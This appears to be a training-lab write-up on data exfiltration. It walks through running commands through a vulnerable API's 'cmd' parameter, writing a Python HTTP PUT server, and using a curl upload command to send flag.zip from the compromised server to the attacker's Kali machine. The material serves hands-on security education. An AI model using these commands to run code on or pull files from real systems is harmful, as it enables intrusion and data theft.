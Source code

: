 ```yaml
---
description: >-
  In this lab you will learn how one can use a simple HTTP server written in
  Python for exfiltrating data from a restricted environment.
---
```


# Lab - Data Exfiltration

## Lab Environment

You have exploited a vulnerable API endpoint and overwritten it with malicious code. This modification allows you to run commands on the server machine hosting the API, as a low privilege user i.e. student. A sensitive flag file is kept in a zipped archive file in the student user's home directory.

Also, there is a monitor process running on the server machine that blocks most protocols except HTTP protocol (when using port 80).

**Objective:** Transfer the zipped archive to your Kali machine using HTTP protocol and retrieve the flag!

**Instructions**

* Once you start the lab, you will have access to the Kali GUI instance
* The API endpoint is accessible at `demo.ine.local` domain!

![](https://assets.ine.com/content/pta-labs/3\_data\_exfiltration/0.png)

## Tools

The tools used in this lab are:

* Nmap
* A web browser
* Python Scripting
* curl

## Solution

Run an nmap scan on demo.ine.local to find out open ports

```
nmap demo.ine.local
```

![](<../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

We can see that port 8000 is open

Going to **demo.ine.local** shows us the following

![](<../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png>)

From the "cmd parameter required" response, we know this means we need to pass parameter names cmd with the URL

For example `pwd` or `ls` or `whoami`

```
demo.ine.local:8000?cmd=pwd
```

![](<../../../../.gitbook/assets/image (2) (1) (1) (1) (1).png>)

Here we see the present working directory located on the web-server

Let's see the contents of that directory

```
demo.ine.local:8000?cmd=ls -l
```

![](<../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png>)

We see an interesting file flag.zip. However, in order to retrieve the flag, we need to transfer/exfiltrate this file to our Kali machine

One of the tools mentioned in the beginning was cURL. Let's check if curl is on the remote machine

```
demo.ine.local:8000?cmd=curl -h
```

![](<../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Now that we know the remote machine has curl, let's check what our IP is.

```
ifconfig
```

![](<../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png>)

In order to exfiltrate the flag.zip file, we need to run a HTTP server on our kali machine that can accept and save the file when it is sent over HTTP

This code will help us:

```python
#!/usr/bin/python

import SimpleHTTPServer
import BaseHTTPServer

class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_PUT(self):
        print self.headers
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))

if __name__ == '__main__':
    SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```

Next I saved the file as **server.py** and ran it.

```
python server.py 80
```

Now we'll upload the zip file to our HTTP server running on Kali using curl

```
demo.ine.local:8000?cmd=curl+192.147.164.2+--upload-file+flag.zip
```

![](<../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png>)

Here we can see that our server received the file

If we list the contents of our current working directory we'll see the file

![](<../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Lastly, unzip the file and retrieve the flag.

```
unzip flag.zip
```

```
cat flag/flag.txt
```

![](<../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png>)
